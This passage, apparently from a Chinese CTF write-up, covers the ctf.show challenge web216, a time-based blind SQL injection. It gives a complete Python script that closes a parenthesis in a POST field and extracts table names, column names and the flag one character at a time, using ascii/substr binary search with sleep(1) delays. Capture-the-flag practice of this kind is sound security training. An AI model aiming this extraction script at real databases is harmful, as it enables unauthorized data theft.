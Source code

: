 ```python
            high = mid # 查询失败，区间向左靠拢
```
## web216（时间盲注）
先随便传个参看看是什么回显
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1639588729720-c9693f22-4cf8-43f4-b75c-d2bd2cd9bcc2.png)
原来是base64加密了，一开始的思路是用to_base64去抵消这个from_base64，但是试了几次没有成功，索性就换个思路，尝试闭合括号
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1639588798875-b2743f75-0c16-490e-9d26-bc8eea83759b.png)
发现页面确实响应了2s左右，那么就可以写脚本了

```python
'''
Author: KonDream
Date: 2021-12-16 01:07:35
LastEditors:  KonDream
LastEditTime: 2021-12-16 01:21:29
Description:  
'''
import requests

url = "http://69171097-f166-41e6-88a9-b4e0b723e5b9.challenge.ctf.show/api/index.php"

flag = '' 
# 爆数据库名 ctfshow_flagxcc,ctfshow_info
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 爆表名 id,flagaac,info
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxcc'"
# 爆字段
payload = "select flagaac from ctfshow_flagxcc"

for i in range(1, 46):
    # 查找ascii从32-128的所有字符
    low = 32
    high = 128
    # 二分查找 提升效率
    while True:
        mid = (low + high) >> 1
        if low == mid:  # low处对应字符即为数据库中的字符
            flag += str(chr(mid + 1))
            print('[*] {}'.format(flag))
            break
        
        data = {
            # 二分法查找字符，ascii值大则sleep
            'ip' : "1) or if(ascii(substr(({}), {}, 1)) > {}, sleep(1), 1)-- -".format(payload, i, mid),
            'debug' : 1
        }

        r = requests.post(url=url, data=data)
        r = r.elapsed.total_seconds() # 获取页面响应时间

        if r > 1: #响应时间超过1s，证明查询成功
            low = mid # 查询成功，区间向右靠拢
        else:
            high = mid # 查询失败，区间向左靠拢
```
## web217（时间盲注）
过滤了sleep，看另一个函数：